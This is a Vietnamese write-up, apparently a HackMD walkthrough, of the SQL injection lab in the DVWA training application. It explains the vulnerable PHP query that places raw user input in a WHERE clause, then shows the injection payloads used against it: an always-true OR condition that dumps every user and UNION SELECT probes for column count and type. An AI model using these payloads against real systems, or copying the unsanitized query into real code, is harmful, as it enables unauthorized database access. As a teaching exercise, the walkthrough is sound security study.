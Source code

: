 ```php
                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
}

?>
```

đoạn code trên sẽ:

- Kiểm tra xem nút "Submit" đã được nhấn hay chưa thông qua biến $\_REQUEST['Submit'].
- Nếu nút "Submit" đã được nhấn, mã sẽ lấy giá trị của biến 'id' từ yêu cầu ($\_REQUEST['id']).
- Dựa vào giá trị của hằng số $\_DVWA['SQLI_DB'], mã chuyển sang một trong hai loại cơ sở dữ liệu: MySQL hoặc SQLite.
- Nếu cơ sở dữ liệu là MySQL (case MYSQL), mã sẽ thực hiện một truy vấn SQL để lấy thông tin người dùng từ bảng 'users', sau đó hiển thị kết quả.
- Nếu cơ sở dữ liệu là SQLite (case SQLITE), mã sẽ thực hiện một truy vấn SQL tương tự như trên, nhưng với cú pháp phù hợp cho SQLite.
- Kết quả được trả về từ cơ sở dữ liệu được lặp qua và thông tin về mỗi người dùng (tên và họ) được hiển thị trên trang.

câu lệnh SQL sử dụng dữ liệu thô do người dùng nhập vào để thực thi trong database

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

vậy mình sẽ có thể bypass và chèn câu lệnh sql vào ô input để hệ thống thực hiện

### Khai thác

- mình dùng lệnh sau để liệt kê ra các user trong database

```sql
admin' or "1"="1";  #
```

- và như chúng ta đã phân tích câu lệnh mà chúng ta chèn vào đã được hệ thống thực hiện và liệt kê ra tất cả các user trong database

![image](https://hackmd.io/_uploads/HkCzdexlA.png)

- mình kiểm tra số cột trong table chứa user này với lệnh UNION thấy câu lệnh `' UNION SELECT NULL,NULL -- -` thực thi không có thông báo lỗi

![image](https://hackmd.io/_uploads/HJe4oexgA.png)

- vậy table này có 2 cột tiếp theo mình kiểm tra kiểu dữ liệu của các cột này xem cột nào hiển thị chuỗi với lệnh

```sql
' UNION SELECT "column1","column2" -- -
```
